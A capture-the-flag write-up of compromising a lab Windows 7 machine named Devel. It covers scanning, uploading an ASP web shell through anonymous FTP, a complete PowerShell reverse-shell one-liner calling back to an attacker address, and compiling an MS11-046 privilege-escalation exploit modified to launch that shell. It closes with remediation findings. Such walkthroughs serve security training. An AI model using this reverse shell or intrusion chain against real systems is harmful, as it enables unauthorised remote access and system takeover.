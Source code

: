 ```yaml
---
layout: default
---
```


# Devel

Let's get to work on the machine Devel.

![](./01.png)

Like normal, we'll kick off ```nmap``` against the system to see what's out there.

![](./02.png)

Looks like we have FTP and HTTP responding.  Let's see what the web interface is serving up.

![](./03.png)

Looks like it's a default IIS7 webpage.  Let's load up ```dirbuster``` to see if we can find any directories or files.

![](./04.png)

![](./05.png)

It looks like it's finding a lot of garbage that probably isn't going to be useful to us.  Let's try hitting one of pages listed to see what comes back.

![](./06.png)

We get a server error page.  We'll have to keep that in mind in case it comes in useful later.

Let's take a look to see what's on the FTP share.

![](./07.png)

Looks like it's sharing out the IIS7 default page's directory.

Let's grab a web shell off GitHub, and upload it to FTP share.  We'll use [https://github.com/tennc/webshell/blob/master/asp/webshell.asp](https://github.com/tennc/webshell/blob/master/asp/webshell.asp) for this.

Let's upload it to the FTP share.

![](./08.png)

Now, let's load the webshell in our browser.

![](./09.png)

Looks to be working, so let's setup a ```netcat``` listener so we can connect back to ourselves.

![](./10.png)

We'll use powershell to create the connection.  Specifically, we're using the following, then encoded into base64 UTF-16LE, so that we can pass it in the webshell:

>```powershell
>$client = New-Object System.Net.Sockets.TCPClient("192.168.0.53",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
>```
![](./11.png)

The page is hanging as expected, so let's check our listener.

![](./12.png)

Looking good, now let's kill the IIS worker process, so it restarts, causing the webshell to be useable again, giving us a way to kick off PowerShell again in case something hangs our shell.

![](./13.png)

Let's run ```systeminfo``` to get some more info on this machine.

![](./14.png)

Now let's download Windows PrivEsc Check ([https://github.com/pentestmonkey/windows-privesc-check](https://github.com/pentestmonkey/windows-privesc-check)) and copy the executable to the FTP share.

![](./15.png)

Now in the webshell we'll run ```c:\inetpub\wwwroot\windows-privesc-check2.exe --audit -a -V -o c:\inetpub\wwwroot\results```

![](./16.png)

This will hang the page long enough we will get a 500 internal server error, this is fine.

We'll just watch the FTP share until we see the results files are generated.

![](./17.png)

We'll then open the ```results.html``` page.

![](./18.png)

If we look through the results, we'll see that the machine is vulnerable to MS11-046.

We'll copy the code from [https://www.exploit-db.com/exploits/40564](https://www.exploit-db.com/exploits/40564) and open ```vi``` with a file named ```MS11-046.c```.

![](./19.png)

Now we'll paste in the code, but we'll want to change the following line from ```"c:\\windows\\system32\\cmd.exe /K cd c:\\windows\\system32"``` to ```C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\Powershell -encodedCommand``` pasting the base64 code from earlier after ```-encodedCommand```.

![](./20.png)

This allow us to have the exploit call back to us, as if we tried to run it before, it would spawn ```cmd.exe```, but not interactively.

We'll then save the file.

To compile this executable, we'll have to install ```gcc-mingw-w64-i686```.

![](./21.png)

Once it's installed, let's compile the code.

![](./22.png)

We'll drop a copy of the file into the FTP share.

![](./23.png)

Then we'll browse to ```wwwroot```, where the file lives.

![](./24.png)

From there, we'll copy it from ```C:\inetpub\wwwroot``` over to ```C:\temp```.

![](./25.png)

Now we'll kick off a listener again.

![](./26.png)

With the listener up, let's launch our exploit, and verify it escalated us to the ```system``` account in our reverse shell.

![](./27.png)

Escalation looks good, so let's grab the flags.

![](./28.png)

That's a wrap.

___

Findings

___

**Operating System:** Windows 7

**IP Address:** 10.10.10.5

**Open Ports:**
- 21
- 80

**Services Responding:**
- FTP
- HTTP

**Vulnerabilities Exploited:**
- MS11-046

**Configuration Insecurities:**
- FTP share with anonymous read and write permissions

**General Findings:**
- Consider placing FTP share behind authentication
- Consider replacing Windows 7 due to end of support
  - If unable to be replaced, consider installing all missing patches to limit attack surface

___

[Back](../)
